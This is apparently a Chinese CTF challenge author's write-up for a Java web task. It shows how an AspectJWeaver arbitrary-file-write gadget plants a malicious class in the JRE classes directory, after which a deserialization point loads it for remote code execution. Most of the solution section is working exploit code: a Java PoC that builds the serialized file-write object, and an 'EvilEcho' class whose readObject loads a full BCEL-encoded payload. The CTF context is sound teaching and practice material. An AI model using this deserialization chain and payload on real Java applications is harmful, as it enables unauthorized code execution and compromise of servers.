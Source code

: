 ```yaml
---
title: 记一次CTF出题之一写一个不吱声_WP篇
date: 2024-10-01 18:53:00 +0800
img_path: /
categories: [CTF, CTF出题记录]
tags: [CTF, CTF出题记录]  

---
```




# WEB-一写一个不吱声

## 一、查看题目信息

`clesses`，你也许需要知道$JAVA_HOME?

`F12`可看到一段`base64`编码的提示。

![image-20240603212134745](assets/image-20240603212134745.png)

提示：任意文件写`RCE`，并且"我"创建了一个文件夹，目的要我们实现`RCE`。

![image-20240603212249484](assets/image-20240603212249484.png)



## 二、题目分析

反编译查看`pom.xml`文件，发现一个`Docker`的镜像名，和一个`aspectjweaver`依赖，考察`aspectjweaver`任意文件写的链子，但是没有`CC`依赖。

![image-20240603212539638](assets/image-20240603212539638.png)

很明显的反序列化点：

![image-20240603212724215](assets/image-20240603212724215.png)

可以代替`CC`依赖的类，并且内容都是可控的：

![image-20240603212852838](assets/image-20240603212852838.png)

所以很明显的是考察任意文件写`RCE`，根据前面提示创建了一个文件夹猜测是`$JAVA_HOME/jre/clesses`，那么可以往里面写一个恶意类并且实现`Serializable`重写`readObject`方法，那么就可以通过反序列化点实现任意代码执行。

至于为什么是`$JAVA_HOME/jre/clesses`？

根据类的双亲委派模型，类的加载顺序会先从`Bootstrap ClassLoader`的加载路径中尝试加载，当找不到该类时，才会选择从下一级的`ExtClassLoader`的加载路径寻找，以此类推到引发加载的类所在的类加载器为止。

`sun.boot.class.path`是一个配置变量，通过本地执行:

```java
System.getProperty("sun.boot.class.path")
```

可获取到`Bootstrap ClassLoader`加载类时，文件的读取路径。

```java
C:\Program Files\Java\jdk1.8.0_66\jre\lib\resources.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\lib\rt.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\lib\sunrsasign.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\lib\jsse.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\lib\jce.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\lib\charsets.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\lib\jfr.jar;
C:\Program Files\Java\jdk1.8.0_66\jre\classes
```

可以注意到存在一个`C:\Program Files\Java\jdk1.8.0_66\jre\classes`路径，其实对应的就是`$JAVA_HOME/jre/clesses`，也就是说当我们加载类时会在这个路径下寻找如果存在则可以加载。

`$JAVA_HOME`可根据给的镜像名拉一个看：`/usr/lib/jvm/java-8-openjdk-amd64/jre/`

题目不出网如何回显？还是根据镜像得知`java`版本是小于`JDK8u251`的存在`BCEL`的利用方式，可通过这样来实现回显`RCE`

任意文件写POC：

```java
package org.example.aspectjweaver;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

import static com.polar.ctf.util.Tools.base64Encode;
import static com.polar.ctf.util.Tools.serialize;

public class AspectJWeaverPoc {
    public static void main(String[] args) throws Exception {
        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class, int.class);
        con.setAccessible(true);
        // 实例化对象
        HashMap map = (HashMap) con.newInstance("/usr/lib/jvm/java-8-openjdk-amd64/jre/classes/", 1);     //路径
        Constructor constructor = Class.forName("com.polar.ctf.bean.UserBean").getDeclaredConstructor();
        constructor.setAccessible(true);
        Object userBean = constructor.newInstance();
        Class cls = userBean.getClass();
        Field field = cls.getDeclaredField("obj");
        field.setAccessible(true);
        field.set(userBean, map);
        Field field1 = cls.getDeclaredField("name");
        field1.setAccessible(true);
        field1.set(userBean, "EvilEcho.class"); //恶意类文件名，注意和下方内容的类名一致。
        Field field2 = cls.getDeclaredField("age");
        field2.setAccessible(true);
        String payload = "yv66vgAAADQAdAoABgAtCAxxxxxx"; // 恶意类Base64编码后的内容
        field2.set(userBean, payload);
        byte[] bytes = serialize(userBean);
        System.out.println(base64Encode(bytes));
    }
}
```

恶意类：

```java
import com.sun.org.apache.bcel.internal.util.ClassLoader;

import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Base64;

public class EvilEcho implements Serializable {
    public static void main(String[] args) {
        try {
            Class<?> evilClass = Class.forName("EvilEcho");
            Object evilInstance = evilClass.getDeclaredConstructor().newInstance();
            ByteArrayOutputStream btout = new ByteArrayOutputStream();
            ObjectOutputStream objOut = new ObjectOutputStream(btout);
            objOut.writeObject(evilInstance);
            System.out.println(new String(Base64.getEncoder().encode(btout.toByteArray())));
            //deserialize(btout.toByteArray());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    private void readObject(ObjectInputStream ois) throws Exception {
        String code = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bW$TW$U$fe$8e$q$99a$YD$C$I$f1R$c1k$40M$c4$bb$40$ad$IX$ac$B$adA$v$a2m$87$e1$A$D$93$9983$B$b4$f7$7bko$f6fk$ed$cd$da$d6v$f5$c9$97$e8j$97$ae$3e$f7$a1$7d$e9k$9f$fa$d4$be$f4$l$d4$ee$93I4$R$ace$z$f69g_$ce$de$fb$db$7b$9f$cc$cf$ff$fcp$D$c0V$7c$a7$a0$i$87$U$3c$8c$c3$82$qe$M$u8$82$a32$G$r$3c$a2$40$c2$90$84c$K$86q$5c$c6$J$Z$8f$caxL$c6$e324$n$h$91$a1$cb$Y$95$c0$85$c6$98$8cq$Z$T$K$ML$w$a8$c1$94$MS$ac$v$Z$96$M$5bFZ8$3b$v$c3$91$e0$w$f0$90$RdZ$c1$Mf$V4$e2$94$8c$d3b$7dB$90$te$3c$r$e3i$J$cf$uh$c1$b3$S$9ec$Iu$Y$96$e1$edf$u$8b6$le$It$d9$a3$9c$a1$waX$bc$3f$93$g$e1$ce$806b$S$t$9c$b0u$cd$3c$aa9$868$e7$99$Bo$c2p$ZV$tlg$3c$ceg$b5T$da$e4q$cdMs$dd$9b$9c$e1$da4w$e2$7b$bbz$S$3d$fa$84$dd$ce$mw$e8f$de$d9$82$e9M$M$d5$89ImZ$8b$9b$9a5$k$ef25$d7m$X$82V$86$rE$C$87$8f$99t$5d$bc$8f$7b$T$f6hNc$b3$88$e6$b6$c6$c1$91IR$c8I$b6$I$b2U$90m$82l$Xd$87$m$3b$F$d9Uj$97$f4$i$c3$g$t$bb$b2$e9V$8a$a6fx$3eYpZsZ$v$a4$ba$oa$cf$ac$ce$d3$9ea$5b$q$afLz$9a$3e$d5$a7$a5s$88Py$r$3cO$c5$a5$eaI$e8$s$a0$Z$94$a4$9dqt$be$cf$Q$80U$W$e0$88$89$ebTlDL$c2$L$w$5e$c4K$w$5e$c6$x$M$j$Ee$ccM$L$f7c$8e$96$e23$b63$V$9b$e1$p1$dd$b6$3c$3e$eb$c5$i$7e2$c3$5d$_v$d8_$bb$7cv$afm$8er$ea$81WU$bc$863$M$b5$e3$dc$cbktz$94$ccH$c6$e3T$a9$aa$3b$QW$f1$3a$de$60Xt$t$9a$94$85$8a7$f1$W$c3$9e$ff$hO$92$3b$d3$e6$bcN$xr$b1$b8i$dbr$J$C$e5vd$M$cb$85$e3$d9$98$eb$db$de$be$a3$a0$5cN$ca$83$8e$e1qG$c5$db$o$d25$a5$G$T$9e$97$8e$f5$S$v$f5$ee$h$f6r$8d0$v$c9$ce$af$ab$8a$b3x$87$ea$ae$a7F$Z$q$db$8dY$94$98$84wU$bc$87$f7U$7c$80s$q$i$dc$df$af$e2C$7cD$9d$T$d7I$z$3ebXqw$82$8e$hu$V$e7$f11$f1$E$y$9eiQ$x$e7$5cd$3c$c3$8c$tu$cd$b2D$v$$$a8$f8$E$9f$aa$f8$M$9fK$f8B$c5E$7c$v$K$7e$89n8$de$a9$e2$x$7c$ad$e2$h$e1$w8ff$c4$c5A$dd$b4$zJ$baf$9eVSq$Z$df2$ac$bc$f7$a014$dcmzJ$a0$Y$98p$I$ljI$3d$e38$dc$f2$K$e7$dahs$e2N$zj$f4$3a$C4$dfk$b9$ceI$d8$3e$b8$91$S$f5$o$91$b0$99W$40$c51i$93$e3PA$a3s$c7n$ce$8d$ed$7eA$LY$ec$99$c7fx$8eM$f3$7f$bd$o$n$c3$9a$b6$a7$I$ec$5d$d1$b9O$c9$f0$5cV$f3$7c$PN5$c5$d4$cduSs$f8h$n$b6J$97$7b$9d$ba$ce$5d$d7$f0$9f$c8$e81$f1$ae$W$f7$e0$v$d7$e3$v$7f$y$O9v$9a$3b$de$v$86$b5$f7$c0$e1$d6$8bT$e1$d9G$d2d$d4$a5$89$B$v$ad$d6$z$rYL$a7fX$E$f0$d2$e2$8b$bb$s4$t$vf$c4$d2y$7b$f31R$Ue$f5$xQ3$b7$92$ed$85$ce$ce$b1$Og$y$cfH$VF$b8p$a8$x1$cb$b3$c90$c0g9$cdM4$3a$cf$bbZlA$Q$I$b4J$5d$e5$99$M$L$c9$d5$7e$x$9d$f1$c8$92k$84Z$7d$c1$9da$c7$8b$Ed$de$Q$9dW$m$d0W3$$$ef$e6$a6$91$S$_$J$c3$ba$bbc$5d$3c$c2$o$J$8b$fa$9d$8aJQ$e4$k$fa$BG$d3$v$e7$c6hsiV$FQ$8f$c9S4K$edh$c2$G$fa$5d$W$7f$L$c0$c43O4N$a78$ad$8c$d6$60$cbU$b0$x9$f1$s$a2$a1$i3$84V$a2$aa$af$80$cd$d8B$abL$l$Uy$e3$F$df$d3$95$V$A$d3$afaA$We$e1$40$W$c1$D$z$e1P$d9uHY$c8$89$f5$8cv$e5Y$u$7dy$85$K_A$z$u$b4$84$x$f3$db$fe$f5$h$f2$bam$81$8d$b7$b6$c1$bc$ddB$b2$LW$f9$aa$8b$daByn$b5$e0$86$D$c4$j$w$L$d7$q$85H$8aH$UDm$q$e4$d3H$a0p$93$i$91$oAR$z$t$d5$3aRU$7eBM$5by$e8$3aQ$r$bc$f8$g$ea$b3h$IG$b2Xr$k$e1$88$ot$oJ$m$bc4y$ZU$e2$b8$yw$5cN4$Y$vOF$e4$y$ee$L$af$u$f6$i$91$fd$cb$7fD$e3$d054E$94$yVf$b1$ea$wV$87$d7d$b16$8bu$c2$e9$a0o$Z$cdg$S$91$f3$e1$e5$f9$cds$f8$97Q$7e$a0$r$8b$f5$83WD$R$d8$Q$3bN$lJe$b9$S9XF$b4$9c$ca$a3$a0$9e$ca$d0$E$f1$9aWb$t$W$a2$LU$e8$c7$o$M$a1$g6$c28C_hgQ$8bs$a8$c3$r$y$G$e5$8b$hh$c0$_$88$e07$y$c1$eft$d7$lX$8e$3f$b1$C$7f$a3$915$a3$89ub$r$h$c2$g$f2$b8$8a$9d$c0j6$82$b5$b9v8M$7eT$d6$87m$d8N$a7z$b6$X$3b$c8$t$p$8b$9d$d8$856j$a0$$$b6$Y$ed$c4$xC$3f$ab$40$H$f1$C$Y$a2$f0$ef$a7$5d$90$e2$f9$L$bbI$g$a2$a8$7e$c5$D$b4$93$u$a6$y$f6$90T$a6$c8$$$a2$T$7b$v$af$h$b8$40ytC$n$efA$f4$60$ly$7b$90$fe$b7$pp$93$C$ae$90$d0$xa$bf$84$87$K$d4$df$f8$fb$D$S$S$40$c5MB$89$60$93$d0$X$a4$I$fbs$ed$7d$f0_g$f9j$k$Y$L$A$A";
        //new ClassLoader().loadClass(code).newInstance();
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();

        // 获取 loadClass 方法
        Method loadClassMethod = classLoader.getClass().getMethod("loadClass", String.class);

        // 调用 loadClass 方法加载类
        Class<?> loadedClass = (Class<?>) loadClassMethod.invoke(classLoader, code);
        loadedClass.newInstance();
    }
}
```

`javac`编译一下即可

## 三、漏洞利用

先写文件

![image-20240603213743991](assets/image-20240603213743991.png)

再反序列化写入的恶意类：

![image-20240603213828453](assets/image-20240603213828453.png)

